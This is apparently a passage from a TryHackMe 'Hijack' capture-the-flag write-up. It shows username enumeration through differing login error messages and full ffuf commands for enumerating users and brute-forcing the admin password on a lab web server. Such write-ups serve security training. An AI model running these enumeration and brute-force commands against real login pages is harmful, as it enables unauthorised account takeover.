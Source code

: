 ```bash
  [...]
  
  $ wc -l passwords_list.txt 
  150 passwords_list.txt
```

This note provided me two usernames 'admin' and 'rick'. It also mentioned a list of passwords thats users should use, which could come in handy later. Additionally, it highlighted that brute-force attempts are limited, which seemed ironic given the 150-password list.

## Port 80 Analysis

The website was relatively basic, offering register, login and administration pages. 

![Website](/assets/img/tryhackme/Hijack/thm_hijack_1.jpg)

I proceed with Gobuster to enumerate directories, but found nothing significant. I then created a test user in the sign up-section. By attempting to log in with a valid username and an incorrect password, I discovered a change in the responded error message. The message changed from `The password you entered is not valid.` to `No account found with that username.`. I enumerated valid usernames using ffuf:
```bash
$ ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -X POST -d "username=FUZZ&password=test" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.125.174/login.php -mr "The password you entered is not valid."

admin                   [Status: 200, Size: 865, Words: 167, Lines: 34, Duration: 52ms]
Admin                   [Status: 200, Size: 865, Words: 167, Lines: 34, Duration: 46ms]
ADMIN                   [Status: 200, Size: 865, Words: 167, Lines: 34, Duration: 63ms]
```

With the valid username `admin`, I performed a password brute force attack:
```bash
$ ffuf -w passwords_list.txt -X POST -d "username=admin&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.125.174/login.php -fs 908
```

As expected, this failed due to the brute-force protection mentioned in the FTP note:

![Login](/assets/img/tryhackme/Hijack/thm_hijack_2.jpg)
